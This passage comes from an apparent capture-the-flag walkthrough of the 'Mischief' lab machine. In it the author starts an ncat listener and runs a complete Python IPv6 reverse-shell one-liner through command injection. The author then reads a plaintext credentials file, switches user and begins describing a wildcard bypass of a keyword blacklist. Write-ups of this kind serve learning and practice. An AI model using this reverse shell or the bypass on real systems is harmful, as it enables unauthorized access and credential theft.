 Start my listener on my IPv6 address:



    root@kali# nc -nv --listen dead:beef:2::100d 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on dead:beef:2::100d:443



Now run the python reverse shell command, changing the socket creation
to `socket.AF_INET6` and putting in my IPv6 address:



    root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect((\"dead:beef:2::100d\",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"



And I get a callback:



    Ncat: Connection from dead:beef::250:56ff:feb2:7cff.
    Ncat: Connection from dead:beef::250:56ff:feb2:7cff:48882.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



From this shell, I can't read user.txt, but I can read the credentials
in loki's home dir:



    www-data@Mischief:/home/loki$ ls
    credentials  hosted  user.txt

    www-data@Mischief:/home/loki$ cat user.txt 
    cat: user.txt: Permission denied

    www-data@Mischief:/home/loki$ cat credentials 
    pass: lokiisthebestnorsegod



I can use those to `su loki`, and then get user.txt:



    www-data@Mischief:/home/loki$ su loki
    Password: 
    loki@Mischief:~$ cat user.txt 
    bf58078e...



### Option #2 - Get Creds and SSH

I can also just get the creds from the command injection RCE, as long as
I can avoid using the term "credentials", as it is blacklisted. Simple
wildcards get around that though:
